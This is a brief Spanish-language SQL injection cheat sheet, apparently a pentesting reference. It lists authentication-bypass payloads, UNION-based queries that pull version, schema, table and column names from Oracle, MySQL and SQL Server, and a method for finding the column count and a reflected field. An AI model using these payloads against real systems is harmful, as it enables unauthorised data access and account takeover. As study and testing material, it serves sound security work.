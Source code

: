 # SQL Injection
La inyección SQL es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante insertar código SQL malicioso en las consultas a una base de datos. Esto puede comprometer la integridad de los datos, revelar información confidencial o permitir acciones no autorizadas en el sistema afectado.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
### Version
#### Oracle
```sql
' union select BANNER,null from v$version-- -
' union select VERSION,null from V$INSTANCE-- -
```
#### MySQL
```sql
' union select @@version,null-- -
' union select VERSION(),null-- -
```
#### Microsoft SQL Server
```sql
' union select @@version,null-- -
' union select SERVERPROPERTY('productversion'),null-- -
```
### Bases de datos
#### Non-Oracle
```sql
' union select null,DISTINCT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
#### Oracle
```sql
' union select null,DISTINCT(USERNAME) FROM ALL_USERS-- -
```
### Tablas
#### Non-Oracle
```sql
' union select null,table_name FROM information_schema.tables-- -
```
#### Oracle
```sql
' union select null,table_name from all_tables-- -
```
### Columnas
#### Non-Oracle
```sql
' union select null,column_name FROM information_schema.columns where table_name='NOMBRE DE LA TABLA'-- -
```
#### Oracle
```sql
' union select null,column_name from all_tab_columns where table_name='NOMBRE DE LA TABLA'-- -
```
## Metodologia (No blind SQL injection)
### Determinar el numero de columnas
```sql
abc' order by 3-- -
# Respuesta 200 OK
abc' order by 20 -- -
# Respuesta 500 Internal Server Error
```
Hay por lo menos 3 columnas y menos de 20, cambiar los numeros hasta determinar el numero de columnas. Una vez encontrado el numero iniciaremos una query union select.

Supongamos que el numero de columnas reflejado es 4 primero lo confirmaremos de la siguiente forma
```sql
abc' union select null,null,null,null-- -
```
### Determinar los campos de los que se puede obtener informacion
Ahora determinaremos cual de los 4 campos es de tipo cadena para poder hacer querys sobre ese campo, introduciremos una cadena aleatoria dentro de cada uno para ver cual es reflejado.
```sql
abc' union select 'v0ydRT',null,null,null-- - # 500
abc' union select null,'v0ydRT',null,null-- - # 500
abc' union select null,null,'v0ydRT',null-- - # 200 -> Aqui se pueden injectar querys
abc' union select null,null,null,'v0ydRT'-- - # 500
```
Despues de eso se utiliza toda la informacion aterior para recopilar la informacion de la base de datos.
